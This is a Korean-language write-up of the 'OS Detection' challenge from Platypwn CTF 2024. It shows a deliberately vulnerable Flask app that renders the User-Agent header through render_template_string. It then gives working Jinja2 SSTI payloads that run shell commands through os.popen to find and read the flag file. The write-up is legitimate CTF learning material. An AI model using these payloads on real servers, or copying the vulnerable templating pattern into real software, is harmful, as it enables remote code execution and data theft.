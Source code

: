 ```yaml
---
title: Platypwn CTF 2024 Write-Up
published: 2024-12-11
description: Platypwn CTF 2024 Write-Up
tags: [CTF]
category: Hacking
draft: false
---
```


# OS Detection #
문제에 대한 코드는 다음과 같이 User Agent에 대한 데이터를 파싱한 다음, 문자열에서 OS에 대한 종류에 대한 값을 가져온다. 그리고 ```render_template_string``` 함수를 통해서 문자열을 user_agent_hint에 반환한다. 여기서 ```render_template_string``` 함수는  ```{{ }}```안에 입력된 코드를 해석하므로, SSTI 취약점이 발생한다.

```
from flask import Flask, request, render_template, render_template_string
from ua_parser import user_agent_parser

app = Flask(__name__)

@app.route("/")
def home():
    user_agent = request.headers.get('User-Agent')
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string['os']['family']
        user_agent_hint = render_template_string(user_agent)
        return render_template('index.html', os=family, user_agent=user_agent_hint)
    except Exception as e:
        return render_template('failure.html', error=str(e))
    
@app.route("/source")
def source():
    code = open(__file__).read()
    return render_template_string("<pre>{{ code }}</pre>", code=code)
    

if __name__ == "__main__":
    # No debug, that would be insecure!
    #app.run(debug=True)
    app.run()
```

그래서 SSTI 취약점을 이용해서 RCE Payload를 실행하면 flag를 얻을 수 있다. 하지만 flag에 대한 파일 위치를 모르기 떄문에 경로를 찾아야 된다.

```
{{config.__class__.__init__.__globals__['os'].popen('find / -name "flag*" 2>/dev/null').read()}}
```
이러한 RCE 이용해서 flag에 대한 경로를 구할 수 있다. 이 중에서 /app/flag/flag.txt 파일을 읽었다.

```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/flag/flag.txt').read()}}
```

flag는 다음과 같다.

PP{h4ck3r-OS-d3t3ct3d::Q3HIY8GDEVv2}